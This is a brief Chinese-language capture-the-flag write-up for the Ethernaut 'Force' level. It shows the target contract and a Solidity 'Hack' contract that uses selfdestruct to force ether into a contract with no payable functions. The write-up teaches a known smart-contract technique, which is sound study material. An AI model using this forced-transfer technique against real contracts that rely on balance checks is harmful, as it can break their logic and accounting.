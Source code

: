 # Ethernaut 07-Force

## 本关目标

- 让 Force 合约的余额大于 0

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

## 解决方案

1. Force 合约既没有 receive()也没有 fallback(),可以使用 selfdestruct(Force 合约地址)强制向 Force 合约转账

```solidity
contract Hack{
    // 携带一些wei,传入Force实例地址
    constructor(address payable _target) payable{
        selfdestruct(_target);
    }
}
```
